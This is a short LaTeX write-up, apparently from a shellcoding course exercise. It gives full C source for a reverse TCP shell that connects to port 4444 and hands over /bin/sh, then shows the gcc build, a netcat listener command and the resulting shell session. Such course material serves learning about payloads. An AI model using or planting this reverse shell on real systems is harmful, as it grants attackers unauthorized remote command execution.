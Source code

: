 \documentclass[11pt]{article}
\begin{document}
\subsection{The Source Code}
\label{sec-1-3}

The source code and tools referenced in this article can be found here:

\subsection{The C progam}
\label{sec-1-4}

\begin{verbatim}
#include <stdio.h>
#include <netinet/in.h>
#define PORT 4444

int main(int argc, char **argv) {
  // Create a socket
  int lsock = socket(AF_INET, SOCK_STREAM, 0);

  // Setup servr side config struct
  // We configure:
  // The family:IPv4
  // The interface: 127.0.0.1 (Loopback)
  // The port: port#
  struct sockaddr_in config;
  config.sin_family = AF_INET;
  config.sin_addr.s_addr = inet_addr("127.0.0.1");
  // The htons() function converts the
  // unsigned short integer hostshort from host byte
  // order to network byte order.
  config.sin_port = htons(PORT);

  // Connect to listening server
  int csock = connect(lsock, (struct sockaddr *) &config, sizeof(config));

  // Redirect stdin, stdout, and stderror
  dup2(lsock, 0);
  dup2(lsock, 1);
  dup2(lsock, 2);

  // Execute a shell
  execve("/bin/sh", NULL, NULL);
};
\end{verbatim}

\subsection{Analysis of the C progam}
\label{sec-1-5}

Let's compile our program with \verb~gcc reversetcpshell.c -o reversetcpshell~.
Next, lets start Netcat listening for a connection using \verb~nc -nlvp 4444~.
Now that we have Netcat waiting for a connection we can go ahead and
execute our reverse tcp shell with \verb~./reversetcpshell~. If we look over
at our Netcat terminal we will see that we have a received a connection
and been presented with a shell!

\begin{verbatim}
root@blahblah:~/shared/SLAE/slae/exercise2# nc -nlvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37260
ls
README.org
reversetcpshell
reversetcpshell.c
\end{verbatim}
\end{document}
